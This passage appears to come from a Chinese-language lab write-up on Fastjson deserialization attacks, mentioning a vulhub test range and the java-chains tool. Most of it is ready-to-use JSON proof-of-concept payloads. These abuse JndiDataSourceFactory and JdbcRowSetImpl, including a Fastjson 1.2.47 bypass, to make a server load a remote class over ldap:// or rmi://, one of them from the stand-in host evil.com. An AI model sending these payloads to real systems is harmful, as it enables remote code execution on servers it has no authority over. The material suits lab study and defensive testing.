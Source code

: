 ```java
        }
    }
}
```

POC

```
{  
  "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",  
  "properties":{  
    "data_source":"ldap://127.0.0.1:1234/Exploit"  
  }  
} 
```

## Fastjson 1.2.47

启动vulhub靶场

启动java-chains工具，

POC

ladp://

```json
{
    "aaa": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "bbb": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://127.0.0.1:1234/Exploit",
        "autoCommit": true
    }
}
```
rmi://

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```
